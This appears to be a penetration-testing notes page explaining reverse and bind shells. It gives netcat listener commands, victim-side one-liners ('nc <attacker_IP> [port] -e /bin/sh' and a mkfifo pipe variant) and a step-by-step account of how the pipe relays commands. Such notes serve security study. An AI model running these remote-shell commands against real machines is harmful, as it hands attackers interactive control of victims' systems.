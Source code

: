 ```yaml
---
description: Reverse/bind shell
---
```


# Gaining shell

### Reverse shell

Given a scenario where an attacker has gained remote code execution privileges on a victim machine, a reverse shell can be established to allow the attacker to gain a remote shell session on the victim machine.

A reverse shell works by establishing a connection from the victim's machine with shell execution, to a listening port on the attacker's machine. This allows any commands sent from the attacker's machine to be executed by the shell on the victim's machine, allowing a remote shell environment.

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc -lp [port]
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc <attacker_IP> [port] -e /bin/sh


# option 2: -e flag might not be present for some netcat versions
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc <attacker_IP> [port] > /tmp/fifo

```

### Bind shell

#### Basic command on attacker machine:

```bash
# Listen on a TCP port
$ nc <victim_IP> <port>
```

#### Command to be executed on the victim's machine:

```bash
# option 1
$ nc -lp [port] -e /bin/sh

# option 2: with $ symbol on attacker machine
$ rm /tmp/fifo; mkfifo /tmp/fifo; cat /tmp/fifo | /bin/sh -i 2>&1 | nc -lp [port] > /tmp/fifo

```



### Explanation for commands use in option 2 of reverse/bind shell

_**What is a fifo (named pipe) file?**_

> ‘mkfifo’ is primarily used when two processes need to communicate with each other but do not have a parent-child relationship. A FIFO special file is an extension of pipes, which offers a pathway for data between two processes. The FIFO special file can be opened by multiple processes for reading and writing. It is especially useful in scenarios where data streaming is necessary.

{% embed url="https://hopeness.medium.com/master-the-linux-mkfifo-command-a-comprehensive-guide-7e64ac926228" %}
mkfifo command
{% endembed %}

1. `rm /tmp/fifo`: Remove the _fifo_ (named pipe) file if it already exists
2. `mkfifo /tmp/fifo:` Create a _fifo_ file at the location `/tmp/fifo` using the `mkfifo` command
3. `cat /tmp/fifo`: Retrieve content of the created _fifo_ file
4. `/bin/sh-i 2>&1:`  Simply executes the current shell, with the `-i` flag for interactive shell mode, and `2>&1` which redirects standard error to standard output, combining both output streams
5. `nc -lp [port] > /tmp/fifo`: Runs the netcat command and sends the output to `/tmp/fifo`.&#x20;

_**Overview**_

These series of commands essentially continuously waits for an input from the attacker machine, before executing it with the current shell, before sending back as input through the established _netcat_ connection:

```bash
cat /tmp/fifo | /bin/sh -i 2>&1 | nc ... > /tmp/fifo
```

a) Attacker sends remote command, which is directed to (`>`) `/tmp/fifo`

b) When the value of `/tmp/fifo`changes, the `cat` command would retrieve the new value and pipe it as input to the `/bin/sh -i 2>&1` command

c) The output from the executed shell command would be piped back as input through the _netcat_ connection to be viewed on the attacker machine



{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux" %}
